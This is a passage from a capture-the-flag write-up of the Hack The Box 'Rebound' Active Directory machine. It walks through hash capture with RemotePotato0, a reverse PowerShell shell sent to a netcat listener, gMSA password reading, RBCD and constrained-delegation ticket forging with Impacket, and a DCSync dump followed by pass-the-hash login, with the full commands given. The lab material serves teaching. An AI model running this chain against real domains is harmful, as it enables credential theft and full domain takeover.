Since we're performing this attack over RPC, we need to host our own Oxid resolver locally and then redirect back to RemotePotato0; I'll use [socat](https://github.com/lilydjwg/socat) for this step. We can't do this remotely as the DC already has a legitimate RPC service running on port 135, but this just the same.

If you're wondering what an Oxid resolver is used for - It's part of Microsoft's DCOM/RPC infrastructure that maps a client's Object Exporter ID (OXID) to the network location of a COM server object. In practice, it helps clients discover and bind to remote COM objects by resolving where those objects are actually hosted so communication can be established.

```
└─$ sudo socat -v TCP-LISTEN:135,fork,reuseaddr TCP:10.129.232.31:9999
```

Now after uploading the tool to the system, we run our command to capture _Tbrady_'s hash.

```
PS> .\RemotePotato0 -m 2 -s 1 -x 10.10.14.48 -p 9999
```



Saving this to a file locally and cracking it rewards us with the plaintext password for their account. 



### Reading gMSA Password
Unfortunately, we can't grab a shell via WinRM since they aren't in the Remote Management group, but we can use RunasCs again to spawn a PowerShell process and redirect the I/O to a local netcat listener to grab a makeshift shell.

```
#In previous WinRM session
PS> .\RunasCs.exe tbrady [REDACTED] powershell -r 10.10.14.48:443

#On local machine
└─$ rlwrap -cAr nc -lvnp 443
```



There's not much in his home directory so I head back to BloodHound in order to search for interesting outbound object privileges. This shows that we can enroll in a few Active Directory Certificate Service templates but are also allowed to read a Group Managed Service Account's password named Delegator$ .



These gMSA (Group Managed Service Accounts) are Active Directory accounts designed to run services across multiple machines without humans ever knowing or managing the password manually. Their passwords are long, high-entropy, automatically rotated by the domain every 30 days, and stored/served securely by AD so we can't realistically guess or crack them offline. From an attacker perspective, the main challenge is we don't "steal" a static password - we instead try to abuse the machines/services that are allowed to retrieve and use the gMSA credentials.

We can use Netexec's gMSA module to print the NTLM for this account.

```
└─$ nxc ldap dc01.rebound.htb -u 'tbrady' -p '[REDACTED]' --gmsa
```



### Discovering Delegation Rights
True to its name, this account is allowed to delegate to the DC's computer account.



We can get more information on it with Impacket's [findDelegation.py](https://github.com/fortra/impacket/blob/master/examples/findDelegation.py) script.

```
└─$ impacket-findDelegation 'rebound.htb/delegator$' -dc-ip 10.129.1.158 -k -hashes ':[REDACTED]'
```



Looks like we are allowed to perform Constrained Delegation without Protocol Transition to HTTP on the DC. In case this is getting a bit confusing, allow me to explain the different types of delegation in Active Directory.
- Unconstrained delegation: Allows a service to impersonate a user to any service once the user authenticates to it, by storing the user's TGT in memory. It's highly permissive and dangerous because compromise of the service effectively exposes all delegated user credentials.
- Constrained delegation: Restricts impersonation to specific services defined in the `msDS-AllowedToDelegateTo` attribute. This limits blast radius, but if the service is compromised, an attacker can still act as users to those predefined services.
- Resource-Based Constrained Delegation (RBCD): Shifts control to the target service, which specifies which accounts are allowed to delegate to it via `msDS-AllowedToActOnBehalfOfOtherIdentity`. This makes it easier to abuse in practice since control over the target object's ACLs (e.g., _GenericWrite_) can be enough to set up delegation abuse.

### RBCD and CD Attack
Whilst researching how to abuse Constrained Delegation w/o Protocol Transition, I came across this [Hacker Recipes page](https://www.thehacker.recipes/ad/movement/kerberos/delegations/constrained#without-protocol-transition) which notes that we can either proceed by executing an RBCD attack on the service or forcing/waiting for a user to authenticate to the service while a Kerberos listener is running. I'll go with the former since it's unlikely that an Administrator will log on during my attempts.

Honestly this is confusing to me even though I've done these types of attacks a dozen times, but we're essentially using RBCD to configure another account to have full delegation rights over the DC and then perform Constrained Delegation, giving us a ticket with DCSync capabilities.

Usually we'd need to add a computer account as a prerequisite, but the `machineAccountQuota` is set to 0 which disallows this. Luckily we already have access to the _ldap_monitor_ account which has an SPN set, so this is no problem. I'll start by modifying its `msds-AllowedToActOnBehalfOfOtherIdentity` attribute to allow delegation to `Delegator$`.

```
└─$ impacket-rbcd 'rebound.htb/delegator$' -hashes ':[REDACTED]' -k -delegate-from ldap_monitor -delegate-to 'delegator$' -action write -dc-ip dc01.rebound.htb -use-ldaps
```



Now that _ldap_monitor_ is able to impersonate users on `Delegator$` via **S4U2Proxy**, we'll obtain a forwardable TGS for the browser service on the DC.

```
└─$ impacket-getTGT 'rebound.htb/ldap_monitor:[REDACTED]' 

└─$ export KRB5CCNAME=ldap_monitor.ccache

└─$ impacket-getST -spn 'browser/dc01.rebound.htb' -impersonate 'dc01$' 'rebound.htb/ldap_monitor' -k -no-pass
```



Once that is in hand, we'll be able to use that ticket in another delegation attack and grab a TGS for the HTTP service on the DC this time.

```
└─$ export KRB5CCNAME=dc01\$@browser_dc01.rebound.htb@REBOUND.HTB.ccache

└─$ impacket-getST -spn "http/dc01.rebound.htb" -impersonate "dc01$" -additional-ticket dc01\$@browser_dc01.rebound.htb@REBOUND.HTB.ccache "rebound.htb/delegator$" -hashes ':[REDACTED]' -k -no-pass
```



Finally, this ticket has sufficient rights to perform a DCSync attack, allowing us to dump all hashes on the domain - including the Administrator's. 

```
└─$ export KRB5CCNAME=dc01\$@http_dc01.rebound.htb@REBOUND.HTB.ccache

└─$ impacket-secretsdump -no-pass -k dc01.rebound.htb
```



Grabbing a shell via WinRM and securing the root flag under their Desktop folder will complete this challenge.

```
└─$ evil-winrm -i dc01.rebound.htb -u administrator -H '[REDACTED]'
```



That's all y'all, this box was really cool because it used some lesser known Active Directory techniques that often go unnoticed because there usually are easier paths. I may be biased since I love attacking AD, but this is probably one of the easier insane machines. Thorough enumeration is key on any environment but it really paid off on this one. I hope this was helpful to anyone following along or stuck and happy hacking!
